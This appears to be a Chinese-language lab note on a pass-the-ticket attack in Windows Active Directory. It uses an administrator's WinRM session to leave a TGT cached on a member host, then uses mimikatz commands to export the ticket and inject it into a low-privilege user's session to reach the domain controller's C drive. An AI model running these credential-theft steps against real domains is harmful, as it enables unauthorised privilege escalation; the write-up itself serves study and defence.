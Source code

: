 - 在域控中, 我们使用 administrator 身份通过 WinRM 远程连接 WIN2016-MEMBER1，这是管理用账户的 TGT 就保存在 WIN2016-MEMBER1 了。

```
Enter-PSSession -ComputerName WIN2016-MEMBER1
```

![](vx_images/4818114121703.png)

在主机 WIN2016-MEMBER1 上, 使用 mimikatz 导出 administrator 发送过来的 TGT 票据

```
privilege::debug
sekurlsa::ticket /export
```

![](vx_images/3356015139583.png)

在域用户 win2016test 中访问域控 C 盘, 被拒绝:

![](vx_images/2918129119394.png)

将 administrator 的 TGT 注入当前会话中

```
kerberos::ptt file.kirbi
```

![](vx_images/2196118137187.png)

- 注入成功后可以访问域控的 C 盘

